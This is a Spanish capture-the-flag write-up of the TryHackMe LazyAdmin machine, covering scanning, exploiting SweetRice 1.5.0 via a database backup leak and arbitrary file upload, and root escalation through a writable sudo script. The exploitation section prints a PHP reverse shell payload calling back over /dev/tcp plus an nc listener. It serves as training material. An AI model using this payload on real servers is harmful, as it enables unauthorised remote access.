 ```yaml
---
title: LazyAdmin
date: 2024-09-22
categories: [PREPARING EJPTv2, TryHackMe]
tags: []  # TAG names should always be lowercase
image: /assets/images/ejptv2/ejptV2.png
---
```


---

![picture](/assets/images/ejptv2/lazy1.png)

---

En la máquina **LazyAdmin**, gracias a una versión anticuada de un gestor de contenido, obtengo el archivo de *Backup* de una *BBDD*, en la que encuentro credenciales para acceder al gestor, una vez dentro, gracias a un **Arbitrary File Upload**, obtengo acceso al servidor, y escalo privilegios gracias a los permisos de **Sudo** sobre un script.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Primero realizaré un *PING* para probar si tengo conectividad con la máquina.

```bash
ping -c 1 10.10.192.27
```

Tengo conectividad, y además compruebo que estoy ante una máquina **Linux** gracias al *TTL*.

![picture](/assets/images/ejptv2/lazy2.png)

A continuación, realizaré un escaneo con **NMAP**, para comprobar los puertos abiertos de la máquina.

```bash
nmap -p- --open -T5 10.10.192.27 -n -Pn
```

![picture](/assets/images/ejptv2/lazy3.png){: w="600" h="300" }

Voy a comprobar el contenido corriendo por el puerto **80 - HTTP**.

Encuentro una página por defecto de **Apache2**.

![picture](/assets/images/ejptv2/lazy4.png)

Al no encontrar nada interesante en el código fuente de la página, voy a realizar **Fuzzing** para intentar encontrar mediante fuerza bruta rutas o archivos que no pueda ver.

(*redirijo el **Stderr** al **/dev/null** porque me dan muchos errores*)

```bash
gobuster dir -u http://10.10.192.27/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 404,403 -x .txt,.php,.md -t 200 2>/dev/null
```

Encuentro una ruta "**/content**".

![picture](/assets/images/ejptv2/lazy5.png)

Dentro de la ruta, encuentro el gestor **CMS** corriendo por el servicio.

![picture](/assets/images/ejptv2/lazy6.png)

Voy a volver a realizar **Fuzzing** sobre esta ruta.

```bash
gobuster dir -u http://10.10.192.27/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 404,403 -x .txt,.php,.md -t 200 2>/dev/null
```

Encuentro los siguientes archivos, y rutas.

![picture](/assets/images/ejptv2/lazy7.png)

En el archivo de "**changelog.txt**", encuentro la versión del gestor de contenido (*CMS*) corriendo, **SweetRice - 1.5.0**. 

![picture](/assets/images/ejptv2/lazy8.png)

En la ruta "**/as**", el panel de *Login* del gestor de contenidos.

![picture](/assets/images/ejptv2/lazy9.png)

---

## **Explotación**

Buscando por internet, encuentro en la siguiente [**Web**](https://www.exploit-db.com/exploits/40718), que para las versiones "**<=1.5.1**", podemos descargarnos el archivo de *backup* de la base de datos **Mysql**.

![picture](/assets/images/ejptv2/lazy10.png)

Voy a la ruta, y lo descargo.

![picture](/assets/images/ejptv2/lazy11.png){: w="600" h="300" }

Mirando el archivo, encuentro unas credenciales.

![picture](/assets/images/ejptv2/lazy12.png)

La contraseña parece ser un **Hash**, me voy a la Web de [Crackstation](https://crackstation.net/) para intentar crackearlo, y obtengo la contraseña en texto claro.

![picture](/assets/images/ejptv2/lazy13.png)

Intentando entrar en el panel de *login* encontrado en la ruta "**/as**", obtengo resultado, y estoy dentro del gestor **CMS** como usuario administrador.

![picture](/assets/images/ejptv2/lazy14.png)

Volviendo a buscar en Internet, encuentro una vulnerabilidad **Arbitrary File Upload** para este gestor, podemos subir un archivo **ZIP** con código **PHP** en la pestaña de "*Media Center*, y vamos a poder ejecutarlo.

[**Enlace a la vulnerabilidad**](https://www.exploit-db.com/exploits/40716).

Creamos un archivo **PHP**, con el código necesario para que nos devuelva una **Reverse Shell**.

- Código

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra Ip'/4444 0>&1'");
?>
```

Y el archivo lo comprimimos.

![picture](/assets/images/ejptv2/lazy15.png)

A continuación, subimos el archivo comprimido, y marcamos la opción para que nos extraiga el archivo.

![picture](/assets/images/ejptv2/lazy16.png)

Lo subimos, y nos va a aparecer con otro nombre.

![picture](/assets/images/ejptv2/lazy17.png)

Nos vamos a la ruta donde se encuentra el archivo subido, y vemos que lo tenemos ahí.

![picture](/assets/images/ejptv2/lazy18.png){: w="600" h="300" }

Antes de ejecutarlo, tendremos que crear un **Listener** en nuestra máquina local para poder recibir la **Shell** interactiva.

- Listener

```bash
nc -lnvp 4444
```

Y una vez estemos escuchando por el puerto indicado en el archivo subido, clicamos en el archivo y obtendremos una **Shell** en nuestra máquina local dentro del servidor.

![picture](/assets/images/ejptv2/lazy19.png)

A continuación, realizo un tratamiento de la **TTY** para mejorar la interacción con la terminal.

```bash
script /dev/null -c bash
Ctrl_Z
stty raw -echo;fg
ls
export SHELL=/bin/bash
export TERM=screen
stty rows 51 columns 208
reset
```

Encuentro un directorio en "**/home**" llamado "**itguy**", en el cual tenemos permisos de lectura, escritura y ejecución, y dentro del directorio encuentro la primera **flag** de usuario.

![picture](/assets/images/ejptv2/lazy20.png)

En el archivo "**mysql_login.txt**", encuentro unas credenciales de la base de datos **Mysql**, pero dentro de la *BBDD*, no encuentro nada interesante.

---

## **Escalada de privilegios**

Mirando los permisos de **SUDO** del usuario **www-data**, veo que no ncesita usar contraseña para ejecutar mediante **PERL** el script "**backup.pl**".

![picture](/assets/images/ejptv2/lazy21.png)

Viendo el contenido del script, veo que ejecuta otro script, ubicado en "**/etc/copy.sh**".

![picture](/assets/images/ejptv2/lazy22.png)


Y viendo el contenido del script "**copy.sh**", veo que ejecuta una **Reverse Shell**.

![picture](/assets/images/ejptv2/lazy23.png)

Viendo los permisos del script, veo que puedo modificarlo, así que en vez de ejecutar la **Reverse Shell**, sobrescribiré "**/bin/bash**" para que ejecute una bash como **root**.

![picture](/assets/images/ejptv2/lazy24.png)


Y a continuación, ejecuto el script como **SUDO**, obtengo una *bash* como el usuario **root**, y en su directorio personal encuentro la **flag** de **root**.

![picture](/assets/images/ejptv2/lazy25.png)

